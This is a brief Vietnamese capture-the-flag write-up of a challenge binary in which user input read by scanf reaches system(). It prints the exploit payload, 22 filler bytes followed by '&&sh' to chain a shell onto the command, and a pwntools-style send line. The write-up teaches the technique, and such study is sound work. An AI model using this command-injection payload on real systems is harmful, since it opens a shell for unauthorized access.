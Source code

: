 ### Write up linux command

Mở binary lên bằng ida thấy rằng biến command đc thực thi bởi system()


```C++
 system(command);
```




mà ta có thể nhập dữ liệu cho command thông qua
 
```C++
 __isoc99_scanf("%31s", command);
```
mà thấy rằng 

```C++
  qmemcpy(command, "echo \"Welcome to KCSC\"", 22);
```


tức là chỉ có 22 ký tự được đưa vào biến command trong tổng số 32 ký tự, 22 kí tự đó chính là câu lệnh 
```bash    
"echo \"Welcome to KCSC\""
```

vì có tận 32 được nhập vào, tức là e sẽ phải để 22 ký tự trước đó là chữ gì đó để khi chương trình chạy, câu lệnh có 22 ký tự trên
sẽ đè lên và tiếp theo sẽ là chuỗi ký tự mà chúng ta mong muốn, e sẽ chọn chỗi &&sh đằng sau để nó thực thi shell để truy cập vào hệ thống
  
   ```c++
 char command[32]; // [rsp+0h] [rbp-20h] BYREF
```

```python
payload = b'A'*22 + b'&&sh'
p.sendlineafter(b'What is your name:',payload)
 ```


khi chạy script thì shell được thực thi


![image](https://github.com/antkss/writeUP/assets/88892713/4b027d20-55f3-461d-8dbd-baf8dcd3b2a2)



